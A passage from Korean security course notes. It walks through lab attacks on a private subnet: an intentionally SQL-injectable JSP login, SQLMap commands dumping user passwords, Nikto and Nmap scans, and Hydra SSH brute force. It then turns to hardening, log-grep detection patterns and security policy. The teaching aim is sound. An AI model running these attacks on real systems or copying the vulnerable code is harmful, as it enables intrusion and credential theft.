        <input type="submit" value="로그인">
    </form>
</body>
</html>
```

#### login.jsp (취약한 버전 - Prepared Statement 미사용)

```jsp
<%@ page import="java.sql.*" %>
<%
    String id = request.getParameter("id");
    String pass = request.getParameter("pass");

    Connection conn = null;
    Statement stmt = null;
    ResultSet rs = null;

    try {
        Class.forName("com.mysql.jdbc.Driver");
        conn = DriverManager.getConnection(
            "jdbc:mysql://192.168.186.132:3306/clouddb",
            "root",
            "password"
        );

        // ❌ SQL Injection 취약!
        String query = "SELECT * FROM users WHERE id='" + id + "' AND pass='" + pass + "'";
        stmt = conn.createStatement();
        rs = stmt.executeQuery(query);

        if (rs.next()) {
            out.println("로그인 성공!");
        } else {
            out.println("로그인 실패!");
        }

    } catch (Exception e) {
        out.println("오류: " + e.getMessage());
    } finally {
        if (rs != null) rs.close();
        if (stmt != null) stmt.close();
        if (conn != null) conn.close();
    }
%>
```

> **⚠️ 경고**: 이 코드는 **교육 목적으로만** 사용하세요. 실제 운영 환경에서는 절대 사용 금지!

---

### 4. SQLMap 기본 공격

#### 명령어 구조

```bash
sqlmap -u "http://TARGET_URL" --옵션1 --옵션2 ...
```

#### 실전 공격 예시

```bash
# 1단계: 데이터베이스 목록 조회
sqlmap -u "http://192.168.186.131/login.jsp" \
       --forms \
       --batch \
       --dbs

# 2단계: 특정 DB의 테이블 목록
sqlmap -u "http://192.168.186.131/login.jsp" \
       --forms \
       --batch \
       -D clouddb \
       --tables

# 3단계: 특정 테이블 데이터 Dump
sqlmap -u "http://192.168.186.131/login.jsp" \
       --forms \
       --batch \
       -D clouddb \
       -T users \
       --dump
```

---

### 5. SQLMap 옵션 상세

| 옵션 | 설명 | 예시 |
|-----|------|------|
| `-u` | 대상 URL | `-u "http://example.com/login.jsp"` |
| `--forms` | HTML form 자동 파싱 | form 태그의 input 파라미터 자동 탐지 |
| `--batch` | 자동 모드 (질문 스킵) | Yes/No 질문에 자동으로 기본값 선택 |
| `--dbs` | 데이터베이스 목록 | `information_schema`, `mysql`, `clouddb` |
| `-D` | 데이터베이스 지정 | `-D clouddb` |
| `--tables` | 테이블 목록 | `users`, `admin_info`, `board` |
| `-T` | 테이블 지정 | `-T users` |
| `--dump` | 데이터 추출 | 실제 레코드 내용 출력 |
| `--current-user` | 현재 DB 사용자 | `root@localhost` |

---

### 6. SQLMap 실행 결과 예시

#### 1단계: 데이터베이스 발견

```
[INFO] testing connection to the target URL
[INFO] checking if the target is protected by some kind of WAF/IPS
[INFO] testing if the parameter 'id' is dynamic
[INFO] confirming that parameter 'id' is dynamic
[INFO] parameter 'id' appears to be injectable
[INFO] testing for SQL injection on parameter 'id'
[INFO] testing 'MySQL >= 5.0 AND error-based'
[INFO] parameter 'id' is 'MySQL >= 5.0 AND error-based' injectable

available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] clouddb
```

#### 2단계: 테이블 발견

```
Database: clouddb
[3 tables]
+-------------+
| admin_info  |
| board       |
| users       |
+-------------+
```

#### 3단계: 데이터 Dump

```
Database: clouddb
Table: users
[4 entries]
+----+----------+----------+----------+
| id | username | password | priority |
+----+----------+----------+----------+
| 0  | admin    | 1234     | 0        |
| 1  | user1    | pass1    | 1        |
| 2  | user2    | pass2    | 1        |
| 3  | guest    | guest123 | 2        |
+----+----------+----------+----------+
```

🎯 **모든 사용자 계정 정보 탈취 완료!**

---

### 7. SQLMap이 작동하지 않는 경우

#### 원인 1: Prepared Statement 사용

```jsp
// ✅ 안전한 코드
PreparedStatement pstmt = conn.prepareStatement(
    "SELECT * FROM users WHERE id=? AND pass=?"
);
pstmt.setString(1, id);
pstmt.setString(2, pass);
```

→ SQLMap 공격 실패

#### 원인 2: WAF (Web Application Firewall)

```
[WARNING] target URL content is not stable
[CRITICAL] WAF/IPS detected
```

→ 우회 기법 필요 (고급 주제)

---

## Nikto 웹 취약점 스캐너

### 1. Nikto 개요

Nikto는 **웹 서버의 일반적인 취약점을 자동으로 스캔**하는 도구입니다.

### 2. 설치 및 실행

```bash
# 설치
sudo apt install nikto

# 기본 스캔
nikto -h http://192.168.186.131
```

---

### 3. 스캔 결과 분석

#### 실행 출력

```
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.186.131
+ Target Hostname:    192.168.186.131
+ Target Port:        80
+ Start Time:         2025-12-29 14:30:00

---------------------------------------------------------------------------
+ Server: nginx/1.24.0 (Ubuntu)

+ The anti-clickjacking X-Frame-Options header is not present.
  → 클릭재킹 공격 가능

+ The X-Content-Type-Options header is not set.
  → MIME 스니핑 공격 가능

+ Cookie 'JSESSIONID' created without the httponly flag
  → XSS를 통한 세션 탈취 가능

+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST
  → DELETE, PUT 등 위험한 메소드는 비활성화됨 (양호)

+ /manager/html - Apache Tomcat 기본 관리자 페이지 발견
  → 기본 설치 파일 제거 필요

+ /test.jsp - 테스트 페이지 노출
  → 운영 환경에서 제거 권장
```

---

### 4. 주요 발견 사항 해석

| 발견 내용 | 심각도 | 대응 방안 |
|---------|-------|---------|
| **X-Frame-Options 없음** | ⚠️ 중간 | Nginx 설정에 `add_header X-Frame-Options "SAMEORIGIN";` 추가 |
| **HTTP-Only 미설정** | 🔴 높음 | `proxy_cookie_flags ~ httponly on;` 설정 |
| **기본 관리자 페이지** | 🔴 높음 | `/manager` 디렉터리 삭제 또는 접근 제한 |
| **테스트 파일 노출** | ⚠️ 중간 | `test.jsp` 삭제 |

---

### 5. 보안 강화 조치

#### Nginx 설정 (/etc/nginx/sites-available/default)

```nginx
location / {
    proxy_pass http://192.168.186.132:8080;

    # 보안 헤더 추가
    add_header X-Frame-Options "SAMEORIGIN" always;
    add_header X-Content-Type-Options "nosniff" always;
    add_header X-XSS-Protection "1; mode=block" always;

    # 쿠키 보안 설정
    proxy_cookie_flags ~ httponly secure samesite=strict;
}
```

#### 적용

```bash
sudo nginx -t  # 설정 검증
sudo systemctl reload nginx
```

---

## Nmap 포트 스캐닝

### 1. Nmap 개요

Nmap은 **네트워크 포트 스캐닝의 표준 도구**로, 열린 포트와 서비스를 탐지합니다.



### 2. 설치

```bash
sudo apt install nmap
```

---

### 3. 기본 스캔

#### 간단한 포트 스캔

```bash
nmap 192.168.186.131

# 결과:
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
```

#### 서비스 버전 탐지

```bash
nmap -sV 192.168.186.131

# 결과:
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 9.6 (Ubuntu)
80/tcp  open  http    nginx 1.24.0
```

---

### 4. 고급 스캔 옵션

| 옵션 | 설명 | 예시 |
|-----|------|------|
| `-sS` | TCP SYN 스캔 (스텔스) | `nmap -sS 192.168.186.131` |
| `-sV` | 서비스 버전 탐지 | `nmap -sV 192.168.186.131` |
| `-O` | OS 지문 인식 | `nmap -O 192.168.186.131` |
| `-A` | 공격적 스캔 (모든 옵션) | `nmap -A 192.168.186.131` |
| `-p` | 포트 범위 지정 | `nmap -p 1-1000 192.168.186.131` |
| `-v` | 상세 출력 | `nmap -v 192.168.186.131` |

---

### 5. 실전 스캔 예시

```bash
# 스텔스 스캔 + 서비스 버전 + 상세 출력
sudo nmap -sS -sV -v 192.168.186.131

# 결과:
Starting Nmap 7.94 ( https://nmap.org )
Nmap scan report for 192.168.186.131
Host is up (0.00021s latency).
Not shown: 998 closed tcp ports (reset)

PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    nginx 1.24.0 (Ubuntu)
MAC Address: 00:0C:29:3F:8A:1B (VMware)

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 6.42 seconds
```

---

### 6. 네트워크 전체 스캔

```bash
# 서브넷 전체 스캔 (192.168.186.0/24)
nmap 192.168.186.0/24

# 결과:
Nmap scan report for 192.168.186.1
Host is up (0.0010s latency).
Not shown: 999 closed ports
PORT    STATE SERVICE
53/tcp  open  domain

Nmap scan report for 192.168.186.131 (웹 서버)
Host is up (0.00021s latency).
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http

Nmap scan report for 192.168.186.132 (WAS 서버)
Host is up (0.00018s latency).
PORT     STATE SERVICE
3306/tcp open  mysql
8080/tcp open  http-proxy

Nmap scan report for 192.168.186.133 (공격자)
...
```

---

## Hydra SSH 무작위 대입 공격

### 1. Hydra 개요

Hydra는 **다양한 프로토콜에 대한 무작위 대입 공격(Brute Force)** 도구입니다.

### 2. 설치

```bash
sudo apt install hydra
```

---

### 3. 비밀번호 사전 파일 준비

#### Rockyou.txt (유명한 비밀번호 사전)

```bash
# Kali Linux에서는 기본 제공
/usr/share/wordlists/rockyou.txt.gz

# 압축 해제
gunzip /usr/share/wordlists/rockyou.txt.gz
```

#### 간단한 사전 직접 생성

```bash
cat > pass.txt <<EOF
123456
password
admin123
qwerty
1234
abcd1234
root
toor
EOF
```

---

### 4. SSH 무작위 대입 공격

#### 명령어 구조

```bash
hydra -l <사용자명> -P <비밀번호파일> ssh://<IP주소>
```

#### 실전 예시

```bash
# 특정 사용자 계정 공격
hydra -l yoyo -P pass.txt ssh://192.168.186.131

# 실행 결과:
Hydra v9.5 (c) 2023 by van Hauser/THC
[DATA] max 8 tasks per 1 server, overall 8 tasks
[DATA] attacking ssh://192.168.186.131:22/
[22][ssh] host: 192.168.186.131   login: yoyo   password: abcd1234
1 of 1 target successfully completed, 1 valid password found
```

✅ **비밀번호 발견: `abcd1234`**

---

### 5. 로그 모니터링 (방어 측면)

#### 웹 서버에서 공격 탐지

```bash
# SSH 로그 실시간 모니터링
sudo tail -f /var/log/auth.log

# 결과:
Dec 29 14:45:01 webserver sshd[1234]: Failed password for yoyo from 192.168.186.133 port 54321
Dec 29 14:45:02 webserver sshd[1234]: Failed password for yoyo from 192.168.186.133 port 54322
Dec 29 14:45:03 webserver sshd[1234]: Failed password for yoyo from 192.168.186.133 port 54323
Dec 29 14:45:04 webserver sshd[1234]: Accepted password for yoyo from 192.168.186.133 port 54324
```

> **🚨 탐지 포인트**: 짧은 시간에 다수의 로그인 실패 → 무작위 대입 공격 의심

---

### 6. SSH 보안 강화

#### /etc/ssh/sshd_config 수정

```bash
sudo vi /etc/ssh/sshd_config

# 보안 설정 추가/수정
PermitRootLogin no                    # root 로그인 금지
PasswordAuthentication no             # 비밀번호 인증 비활성화 (키 인증만 허용)
MaxAuthTries 3                        # 최대 시도 횟수 제한
LoginGraceTime 30                     # 로그인 타임아웃 설정
AllowUsers yoyo admin                 # 특정 사용자만 허용

# SSH 재시작
sudo systemctl restart sshd
```

#### Fail2Ban 설치 (자동 차단)

```bash
# 설치
sudo apt install fail2ban

# 설정
sudo vi /etc/fail2ban/jail.local

[sshd]
enabled = true
port = 22
filter = sshd
logpath = /var/log/auth.log
maxretry = 5                # 5번 실패 시
bantime = 3600              # 1시간 차단
findtime = 600              # 10분 내

# 시작
sudo systemctl enable fail2ban
sudo systemctl start fail2ban
```

---

## OS 지문 인식 (OS Fingerprinting)

### 1. TTL (Time To Live) 기반 OS 탐지

#### 원리

각 운영체제는 **고유한 기본 TTL 값**을 사용합니다.

| 운영체제 | 기본 TTL 값 |
|---------|-----------|
| **Linux/Unix** | 64 |
| **Windows** | 128 |
| **Cisco 라우터** | 255 |

```mermaid
graph LR
    A[공격자] -->|ICMP Echo Request| B[대상 서버]
    B -->|ICMP Echo Reply<br/>TTL=64| A

    A -->|TTL 값 확인| C{TTL 분석}
    C -->|64| D[Linux/Unix]
    C -->|128| E[Windows]
    C -->|255| F[네트워크 장비]

    style D fill:#d4edda
```

---

### 2. Ping을 이용한 OS 탐지

#### Linux에서 테스트

```bash
ping -c 1 192.168.186.131

# 결과:
PING 192.168.186.131 (192.168.186.131) 56(84) bytes of data.
64 bytes from 192.168.186.131: icmp_seq=1 ttl=64 time=0.21 ms
```

**TTL=64** → Linux/Unix 시스템

#### Windows에서 테스트

```cmd
ping 192.168.186.131

응답: 바이트=32 시간=1ms TTL=64
```

**TTL=64** (Linux 대상) 또는 **TTL=128** (Windows 대상)

---

### 3. Nmap을 이용한 정확한 OS 탐지

```bash
sudo nmap -O 192.168.186.131

# 결과:
Running: Linux 5.X|6.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:linux:linux_kernel:6
OS details: Linux 5.4 - 6.5
Network Distance: 1 hop

OS detection performed.
```

---

### 4. 고급: TCP/IP 스택 지문 인식

Nmap은 다음 특성들을 분석합니다:

1. **TCP 초기 시퀀스 번호 생성 패턴**
2. **TCP 옵션 순서**
3. **Window Size 값**
4. **ICMP 응답 특성**
5. **포트 개방/차단 응답 방식**

```bash
# 상세 OS 지문 인식
sudo nmap -O -v 192.168.186.131
```

---

## 실습 체크리스트

### 기본 도구 실습

- [ ] TCPDump로 HTTP 트래픽 캡처
- [ ] Wireshark로 캡처 파일 분석
- [ ] ngrep으로 실시간 로그인 정보 스니핑
- [ ] Nikto로 웹 서버 취약점 스캔
- [ ] Nmap으로 포트 스캔 및 서비스 탐지

### 고급 공격 실습

- [ ] SQLMap으로 취약한 로그인 페이지 공격
- [ ] 데이터베이스 목록 추출
- [ ] 테이블 데이터 Dump
- [ ] Hydra로 SSH 무작위 대입 공격
- [ ] Fail2Ban 설치 및 테스트

### 보안 강화

- [ ] Nginx 보안 헤더 추가
- [ ] SSH root 로그인 비활성화
- [ ] SSH 키 인증 설정
- [ ] Fail2Ban 로그 확인
- [ ] Prepared Statement로 코드 수정

---

## 주요 명령어 요약

### TCPDump & ngrep

```bash
# TCPDump: 80번 포트 ASCII 캡처
sudo tcpdump -i ens33 -A -s 0 "tcp port 80"

# ngrep: 실시간 필터링
ngrep -d ens33 -W byline "POST" port 80
```

### SQLMap

```bash
# 기본 공격
sqlmap -u "http://192.168.186.131/login.jsp" --forms --batch --dbs

# 데이터 Dump
sqlmap -u "http://192.168.186.131/login.jsp" --forms --batch -D clouddb -T users --dump
```

### Nikto & Nmap

```bash
# Nikto 웹 스캔
nikto -h http://192.168.186.131

# Nmap 포트 스캔
sudo nmap -sS -sV -v 192.168.186.131
```

### Hydra

```bash
# SSH 무작위 대입
hydra -l yoyo -P pass.txt ssh://192.168.186.131
```

---

## 강사 강조 사항

> **🔥 정말 중요합니다!**
>
> 1. **TCPDump와 grep은 파이프라인으로 연결 불가**. 스트림이 종료되지 않아 grep이 대기 상태가 됩니다.
> 2. **ngrep을 사용하면 실시간 필터링 가능**. 네트워크 트래픽 분석에 훨씬 효율적입니다.
> 3. **SQLMap은 Prepared Statement에는 무력**. 안전한 코딩이 최선의 방어입니다.
> 4. **Nikto는 기본 취약점만 탐지**. 심화된 보안 감사는 전문 도구가 필요합니다.

> **💡 실무 팁**:
>
> - **모든 도구는 sudo 권한 필요**: 네트워크 인터페이스 접근 권한 필요
> - **Wireshark는 GUI 환경**에서 사용. 서버에서는 TCPDump로 캡처 후 로컬로 전송
> - **SQLMap 실행 시간 오래 걸림**: `--batch` 옵션으로 자동화 필수
> - **Hydra는 관제 시스템에 바로 탐지됨**: 실제 공격에서는 더 정교한 기법 필요

---

## 트러블슈팅

### 1. TCPDump "permission denied"

```bash
# 원인: 권한 부족
# 해결: sudo 사용
sudo tcpdump -i ens33
```

### 2. ngrep이 설치되지 않음

```bash
# 설치
sudo apt update
sudo apt install ngrep
```

### 3. SQLMap이 작동하지 않음

**확인 사항**:
- [ ] login.jsp가 Prepared Statement 사용하는지 확인
- [ ] 취약한 버전의 login.jsp 사용
- [ ] URL 경로 정확한지 확인

### 4. Hydra 공격이 너무 느림

```bash
# 병렬 작업 수 증가
hydra -l yoyo -P pass.txt -t 16 ssh://192.168.186.131
#                           ^^^^
#                           16개 동시 연결
```

---

## Q&A

**Q: TCPDump로 HTTPS 트래픽도 볼 수 있나요?**
A: 암호화된 트래픽은 평문으로 볼 수 없습니다. SSL/TLS 복호화 키가 필요합니다.

**Q: SQLMap이 Prepared Statement를 우회할 방법은 없나요?**
A: 제대로 구현된 Prepared Statement는 원칙적으로 우회 불가능합니다. 이것이 최선의 방어법입니다.

**Q: Hydra 공격을 어떻게 방어하나요?**
A: Fail2Ban 설치, SSH 키 인증 강제, 비표준 포트 사용, VPN을 통한 접속만 허용 등의 방법이 있습니다.

**Q: Nikto 결과를 어떻게 해석해야 하나요?**
A: 각 항목의 심각도를 평가하고, 우선순위에 따라 조치하세요. HTTP 헤더 설정부터 시작하는 것이 좋습니다.

---

## 다음 섹션 예고

**Section 4: 웹서버 보안 및 정책**

- AppArmor 프로파일 작성
- iptables 방화벽 설정
- Nginx 보안 강화
- 로그 분석 및 모니터링
- 보안 점검 체크리스트

---

## 학습 마무리

이번 섹션에서는:

1. ✅ **TCPDump**로 네트워크 패킷 캡처 및 분석
2. ✅ **ngrep**으로 실시간 트래픽 필터링
3. ✅ **SQLMap**으로 자동화 SQL Injection 공격
4. ✅ **Nikto**로 웹 서버 취약점 스캔
5. ✅ **Nmap**으로 포트 및 서비스 탐지
6. ✅ **Hydra**로 SSH 무작위 대입 공격
7. ✅ **OS 지문 인식** 기법 이해

공격자가 사용하는 **대표적인 해킹 도구 7가지**를 실습했습니다. 이제 이러한 공격을 방어하는 방법을 배울 차례입니다!

**계속해서 Section 4에서 웹서버 보안을 강화해 봅시다!** 🛡️
# Section 4: 웹서버 보안 및 보안 정책 (Web Server Security & Security Policies)

## 목차
1. [Apache 웹서버 보안 설정](#apache-웹서버-보안-설정)
2. [로그 분석 및 모니터링](#로그-분석-및-모니터링)
3. [보안 정책 수립](#보안-정책-수립)
4. [정보보호 관리체계](#정보보호-관리체계)
5. [모듈 프로젝트 개요](#모듈-프로젝트-개요)
6. [강의 총정리](#강의-총정리)

---

## Apache 웹서버 보안 설정

### 1. Apache vs Nginx 비교

| 구분 | Apache | Nginx |
|-----|--------|-------|
| **출시 연도** | 1995년 | 2004년 |
| **구조** | 프로세스 기반 | 이벤트 기반 |
| **메모리 사용** | 많음 | 적음 |
| **설정 복잡도** | 높음 (20년+ 레거시) | 중간 |
| **설정 파일** | httpd.conf / apache2.conf | nginx.conf |
| **모듈 시스템** | 방대함 | 간결함 |
| **시장 점유율** | 감소 추세 | 증가 추세 |

> **💡 강사 권장**: 취약점 진단 팀을 제외하고는 Nginx 사용 권장. Apache는 옵션이 너무 복잡하고 레거시가 많음.

---

### 2. Apache 설치 및 설정 파일 위치

#### 설치

```bash
# Ubuntu/Debian
sudo apt update
sudo apt install apache2

# CentOS/RHEL
sudo yum install httpd
```

#### 주요 설정 파일

| 배포판 | 메인 설정 파일 | 사이트 설정 |
|-------|------------|----------|
| **Ubuntu** | `/etc/apache2/apache2.conf` | `/etc/apache2/sites-available/` |
| **CentOS** | `/etc/httpd/conf/httpd.conf` | `/etc/httpd/conf.d/` |

```mermaid
graph TD
    A[Apache 설정] --> B[apache2.conf<br/>메인 설정]
    A --> C[ports.conf<br/>포트 설정]
    A --> D[sites-available/<br/>가상 호스트]
    A --> E[mods-available/<br/>모듈 설정]

    D --> F[000-default.conf]
    D --> G[001-custom.conf]

    style A fill:#e6f3ff
    style B fill:#ffffcc
```

---

### 3. 포트 설정

#### ports.conf

```apache
# /etc/apache2/ports.conf

# HTTP 포트
Listen 80

# SSL 모듈이 활성화되면 HTTPS 포트 추가
<IfModule ssl_module>
    Listen 443
</IfModule>

<IfModule mod_gnutls.c>
    Listen 443
</IfModule>
```

---

### 4. 가상 호스트 설정

#### /etc/apache2/sites-available/000-default.conf

```apache
<VirtualHost *:80>
    # 기본 정보
    ServerAdmin webmaster@localhost
    ServerName example.com
    ServerAlias www.example.com

    # 문서 루트 (홈 디렉터리)
    DocumentRoot /var/www/html

    # 로그 파일
    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

    # 디렉터리 설정
    <Directory /var/www/html>
        Options -Indexes +FollowSymLinks
        AllowOverride None
        Require all granted
    </Directory>
</VirtualHost>
```

#### 주요 설정 항목

| 지시자 | 설명 | 예시 |
|-------|------|------|
| `ServerName` | 도메인 이름 | `example.com` |
| `DocumentRoot` | 웹 루트 디렉터리 | `/var/www/html` |
| `DirectoryIndex` | 기본 인덱스 파일 | `index.html index.php` |

---

### 5. 디렉터리 리스팅 제어

#### 보안 취약: 리스팅 허용

```apache
<Directory /var/www/html>
    Options Indexes FollowSymLinks
    #        ^^^^^^^ 위험!
    AllowOverride None
    Require all granted
</Directory>
```

**결과**: 브라우저에서 디렉터리 내용이 그대로 노출

```
Index of /uploads/

[DIR] Parent Directory
[TXT] secret_document.pdf
[IMG] confidential.jpg
[   ] passwords.txt
```

#### 보안 강화: 리스팅 차단

```apache
<Directory /var/www/html>
    Options -Indexes +FollowSymLinks
    #       ^^^^^^^^ 리스팅 차단
    AllowOverride None
    Require all granted
</Directory>
```

**결과**: `403 Forbidden` 에러 발생

---

### 6. Options 지시자 상세

| 옵션 | 설명 | 보안 권장 |
|-----|------|---------|
| `Indexes` | 디렉터리 목록 표시 | ❌ 비활성화 |
| `FollowSymLinks` | 심볼릭 링크 허용 | ✅ 필요 시 활성화 |
| `ExecCGI` | CGI 스크립트 실행 허용 | ⚠️ 필요한 경우만 |
| `Includes` | SSI (Server Side Includes) 허용 | ❌ 비활성화 |
| `MultiViews` | 컨텐츠 협상 | ⚠️ 선택적 |

#### 안전한 설정 예시

```apache
<Directory /var/www/html>
    Options -Indexes -Includes +FollowSymLinks
    AllowOverride None
    Require all granted
</Directory>
```

---

### 7. 기본 문서 설정

#### DirectoryIndex

```apache
<IfModule dir_module>
    DirectoryIndex index.html index.htm index.php default.html
</IfModule>
```

**동작 순서**:
1. `index.html` 찾기
2. 없으면 `index.htm` 찾기
3. 없으면 `index.php` 찾기
4. 없으면 `default.html` 찾기
5. 모두 없으면 → `403 Forbidden` (Indexes가 꺼진 경우)

---

## 로그 분석 및 모니터링

### 1. Access Log (접근 로그)

#### 로그 파일 위치

```bash
# Ubuntu
/var/log/apache2/access.log

# CentOS
/var/log/httpd/access_log
```

#### W3C 표준 로그 포맷

```
192.168.1.100 - - [29/Dec/2025:14:35:22 +0900] "GET /index.html HTTP/1.1" 200 3460 "-" "Mozilla/5.0 ..."
```

| 필드 | 설명 | 예시 |
|-----|------|------|
| **1. IP 주소** | 클라이언트 IP | `192.168.1.100` |
| **2. 식별자** | RFC 1413 클라이언트 ID | `-` (대부분 미사용) |
| **3. 사용자명** | HTTP 인증 사용자 | `-` (미인증 시) |
| **4. 시간** | 요청 시간 | `[29/Dec/2025:14:35:22 +0900]` |
| **5. 요청** | HTTP 메소드 + 경로 + 프로토콜 | `"GET /index.html HTTP/1.1"` |
| **6. 상태 코드** | HTTP 응답 코드 | `200` (성공) |
| **7. 응답 크기** | 바이트 단위 | `3460` |
| **8. Referer** | 이전 페이지 URL | `"-"` 또는 URL |
| **9. User-Agent** | 브라우저 정보 | `"Mozilla/5.0 ..."` |

---

### 2. Access Log 분석 예시

#### 공격 패턴 탐지

```bash
# SQL Injection 시도 탐지
grep -i "union.*select" /var/log/apache2/access.log

# XSS 시도 탐지
grep -i "<script" /var/log/apache2/access.log

# Path Traversal 시도 탐지
grep -i "\.\./\.\." /var/log/apache2/access.log

# 특정 IP의 모든 요청
grep "192.168.186.133" /var/log/apache2/access.log

# 404 에러 발생 빈도 (스캐닝 탐지)
awk '$9 == 404' /var/log/apache2/access.log | wc -l
```

---

### 3. Custom Log 설정

#### LogFormat 지시자

```apache
LogFormat "%h %l %u %t \"%r\" %>s %b \"%{Referer}i\" \"%{User-Agent}i\"" combined
LogFormat "%h %l %u %t \"%r\" %>s %b" common

CustomLog /var/log/apache2/access.log combined
```

#### 포맷 변수

| 변수 | 설명 |
|-----|------|
| `%h` | 클라이언트 IP |
| `%l` | RFC 1413 ID |
| `%u` | HTTP 인증 사용자 |
| `%t` | 요청 시간 |
| `%r` | 요청 라인 전체 |
| `%>s` | 최종 상태 코드 |
| `%b` | 응답 바이트 (헤더 제외) |
| `%{Referer}i` | Referer 헤더 |
| `%{User-Agent}i` | User-Agent 헤더 |

> **📌 중요**: 표준 포맷을 변경하는 팀은 거의 없음. W3C 표준을 그대로 사용하는 것이 일반적!

---

### 4. Error Log (오류 로그)

#### 로그 파일 위치

```bash
# Ubuntu
/var/log/apache2/error.log

# CentOS
/var/log/httpd/error_log
```

#### Error Log 포맷

```
[Mon Dec 29 14:35:22.123456 2025] [core:error] [pid 12345] [client 192.168.1.100:54321] AH00037: Symbolic link not allowed or link target not accessible: /var/www/html/symlink
```

| 필드 | 설명 |
|-----|------|
| **1. 시간** | `[Mon Dec 29 14:35:22.123456 2025]` |
| **2. 심각도** | `[core:error]` - error, warn, notice, info, debug |
| **3. 프로세스 ID** | `[pid 12345]` |
| **4. 클라이언트 정보** | `[client 192.168.1.100:54321]` |
| **5. 오류 코드** | `AH00037` |
| **6. 설명** | 오류 상세 내용 |

---

### 5. 실시간 로그 모니터링

```bash
# Access 로그 실시간 보기
tail -f /var/log/apache2/access.log

# Error 로그 실시간 보기
tail -f /var/log/apache2/error.log

# 특정 IP만 필터링하여 실시간 모니터링
tail -f /var/log/apache2/access.log | grep "192.168.186.133"

# 에러만 실시간 모니터링
tail -f /var/log/apache2/error.log | grep -i error
```

---

## 보안 정책 수립

### 1. 보안 정책의 필요성

```mermaid
graph TB
    A[보안 사고 발생] --> B{정책 유무}
    B -->|정책 있음| C[정책에 따라<br/>신속 대응]
    B -->|정책 없음| D[혼란<br/>책임 소재 불분명]

    C --> E[피해 최소화]
    D --> F[피해 확대]

    style C fill:#d4edda
    style D fill:#f8d7da
    style E fill:#d4edda
    style F fill:#f8d7da
```

### 2. 보안 정책 구조

```mermaid
graph TD
    A[Security Policy<br/>보안 정책] --> B[Standard<br/>표준]
    B --> C[Baseline<br/>기준선]
    C --> D[Guideline<br/>가이드라인]
    D --> E[Procedure<br/>절차]

    A2[5-10페이지<br/>상위 관리자 작성] --> A
    B2[일반적 보안 태도<br/>세부 기술 제외] --> B
    C2[최소 보안 수준<br/>기본 요구사항] --> C
    D2[특정 상황 충고<br/>방향 제시] --> D
    E2[매뉴얼 수준<br/>상세 행동 강령] --> E

    style A fill:#ffcccc
    style B fill:#ffe6cc
    style C fill:#ffffcc
    style D fill:#e6ffcc
    style E fill:#ccffcc
```

---

### 3. 보안 정책 문서 유형

| 문서 유형 | 영문명 | 분량 | 내용 | 작성자 |
|---------|-------|------|------|-------|
| **정책** | Security Policy | 5-10 페이지 | 보안 활동 일반 지침 | 상위 관리자 |
| **표준** | Standard | 10-20 페이지 | 지켜야 할 보안 태도 | 보안팀 |
| **기준선** | Baseline | 5-10 페이지 | 최소 보안 수준 | 보안팀 |
| **가이드** | Guideline | 10-30 페이지 | 상황별 충고/방향 | 보안팀 + 부서 |
| **절차** | Procedure | 20-50 페이지 | 매뉴얼 수준 상세 | 엔지니어링팀 |

---

### 4. 실제 보안 정책 예시

#### Security Policy (정책)

```markdown
# 정보보안 정책

## 1. 목적
본 정책은 [회사명]의 정보 자산을 보호하고 안전한 업무 환경을 조성한다.

## 2. 적용 범위
전 직원, 협력업체, 방문자

## 3. 정보 자산 분류
- **1급 기밀**: 외부 유출 시 치명적 손실 (예: 고객 개인정보)
- **2급 기밀**: 외부 유출 시 상당한 손실 (예: 내부 운영 정보)
- **3급 기밀**: 외부 유출 시 경미한 손실 (예: 공개 가능 자료)

## 4. 책임
- **CEO**: 최종 승인 및 전사 보안 책임
- **CISO**: 보안 정책 수립 및 시행
- **부서장**: 부서 내 보안 준수 관리
- **직원**: 개인 보안 준수 의무
```

#### Procedure (절차) - 자리 이탈 시

```markdown
# 자리 이탈 시 보안 절차

## 1. 필수 조치 (3분 이내)
- [ ] 화면 잠금 (Win+L 또는 Ctrl+Alt+Del → Lock)
- [ ] 문서 뒤집어 놓기 또는 서랍 보관
- [ ] 중요 문서는 잠금 캐비닛에 보관

## 2. 10분 이상 자리 이탈 시
- [ ] 컴퓨터 로그오프
- [ ] 책상 위 문서 정리
- [ ] 출입증 착용 확인

## 3. 위반 시 조치
- 1차: 경고
- 2차: 서면 경고
- 3차: 인사 조치

## 4. 감사
- 보안팀이 월 1회 무작위 점검
```

---

### 5. ISO 27001 정보보호 관리체계

#### 주요 통제 영역 (14개)

| 영역 | 설명 |
|-----|------|
| **A.5 정보보안 정책** | 정보보안 정책 수립 및 검토 |
| **A.6 조직** | 보안 조직 및 모바일 기기 관리 |
| **A.7 인적 자원 보안** | 채용 전/후 보안, 퇴직 절차 |
| **A.8 자산 관리** | 자산 목록, 분류, 매체 처리 |
| **A.9 접근 통제** | 사용자 접근 관리, 인증 |
| **A.10 암호화** | 암호화 정책 및 키 관리 |
| **A.11 물리적 보안** | 보안 구역, 장비 보안 |
| **A.12 운영 보안** | 운영 절차, 백업, 로깅 |
| **A.13 통신 보안** | 네트워크 보안, 정보 전송 |
| **A.14 시스템 개발** | 보안 요구사항, 개발 보안 |
| **A.15 공급자 관계** | 공급망 보안 |
| **A.16 사고 관리** | 보안 사고 대응 절차 |
| **A.17 연속성 관리** | 업무 연속성 계획 |
| **A.18 준수** | 법적 요구사항 준수 |

---

### 6. ISMS-P (개인정보보호 관리체계)

#### 2-3년 전 강화된 개인정보보호법

```mermaid
graph LR
    A[개인정보 수집] --> B[개인정보 저장]
    B --> C[개인정보 이용]
    C --> D[개인정보 제공]
    D --> E[개인정보 파기]

    A --> A1[최소 수집 원칙]
    B --> B1[암호화 저장]
    C --> C1[동의 범위 내 이용]
    D --> D1[제3자 제공 동의]
    E --> E1[안전한 파기]
